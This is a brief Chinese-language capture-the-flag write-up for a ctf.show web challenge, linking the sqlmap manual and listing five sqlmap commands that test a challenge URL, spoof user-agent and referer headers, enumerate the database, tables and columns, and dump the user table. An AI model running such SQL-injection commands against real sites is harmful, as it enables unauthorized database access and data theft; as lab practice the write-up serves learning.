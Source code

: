 # 知识点
### sqlmap
使用手册<br />[https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
# 思路
```bash
python sqlmap.py -u http://75d6ef49-ed52-4bc1-bb21-5320fc6d1485.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show
```
```bash
python sqlmap.py -u http://75d6ef49-ed52-4bc1-bb21-5320fc6d1485.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show --dbs
```
```bash
python sqlmap.py -u http://75d6ef49-ed52-4bc1-bb21-5320fc6d1485.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D ctfshow_web --tables
```
```bash
python sqlmap.py -u http://75d6ef49-ed52-4bc1-bb21-5320fc6d1485.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user --columns
```
```bash
python sqlmap.py -u http://75d6ef49-ed52-4bc1-bb21-5320fc6d1485.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user --dump 
```
